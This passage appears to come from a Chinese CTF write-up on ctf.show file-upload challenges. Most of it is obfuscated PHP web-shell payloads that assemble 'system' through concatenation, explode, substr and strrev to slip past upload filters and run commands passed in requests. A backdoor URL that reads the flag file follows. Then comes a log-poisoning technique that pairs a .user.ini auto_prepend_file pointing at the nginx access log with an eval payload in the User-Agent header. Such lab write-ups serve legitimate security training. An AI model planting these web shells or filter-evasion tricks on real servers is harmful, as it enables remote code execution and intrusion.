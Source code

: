 这个可以直接上传php文件，我们对payload进行处理，使其可以不被杀死

```
payload1:
<?php $a='syste';$b='m';$c=$a.$b;$c('tac ../flagaa.php');?>

payload2:
<?php
$a = "s#y#s#t#e#m";
$b = explode("#",$a);
$c = $b[0].$b[1].$b[2].$b[3].$b[4].$b[5];
$c($_REQUEST[1]);
?>

payload3:
<?php
$a=substr('1s',1).'ystem';
$a($_REQUEST[1]);
?>

payload4:
<?php
$a=strrev('metsys');
$a($_REQUEST[1]);
?>
```

上传后门文件

![](https://i-blog.csdnimg.cn/blog_migrate/fb05b69366002a50064a11e1e6c161ed.png)

文件上传成功，链接后门读取flag

```
http://3af2a636-8362-4c0b-9147-de822c7ddc9d.challenge.ctf.show/upload/test.php?1=cat ../flagaa.php
```

![](https://i-blog.csdnimg.cn/blog_migrate/38fe30aba83daa79a02a5d4a3e401a69.png)

##### 169关：日志包含

这一关上传了.user.ini之后，访问upload目录显示403，所以我们需要上传一个index.php，构造.user.ini利用条件：上传index.php  
内容随意。上传.user.ini包含日志：`auto_prepend_file=/var/log/nginx/access.log`  
访问地址带后门UA头写入日志：`<?=eval($_POST[x]);?>`

这里其实和160的文件包含是一样的。只是我们需要上传index.php配合.user.ini

爆出403的错误就以为着当前目录的目录文件缺失。

##### 170关：和169一摸一样

完结撒花！！！

